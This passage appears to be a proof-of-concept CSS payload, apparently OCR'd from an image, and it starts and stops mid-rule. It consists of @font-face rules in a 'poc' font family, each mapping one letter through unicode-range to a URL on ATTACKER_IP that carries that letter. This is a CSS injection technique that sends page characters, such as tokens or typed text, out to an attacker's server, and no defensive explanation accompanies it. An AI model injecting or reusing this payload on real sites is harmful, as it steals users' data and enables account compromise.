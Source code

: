 }
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=q);
    unicode-range: U+0071;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=r);
    unicode-range: U+0072;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=s);
    unicode-range: U+0073;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=t);
    unicode-range: U+0074;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=u);
    unicode-range: U+0075;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=v);
    unicode-range: U+0076;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=w);
    unicode-range: U+0077;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=x);
    unicode-range: U+0078;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=y);
    unicode-range: U+0079;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=z);
    unicode-range: U+007A;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=A);
    unicode-range: U+0041;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=B);
    unicode-range: U+0042;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=C);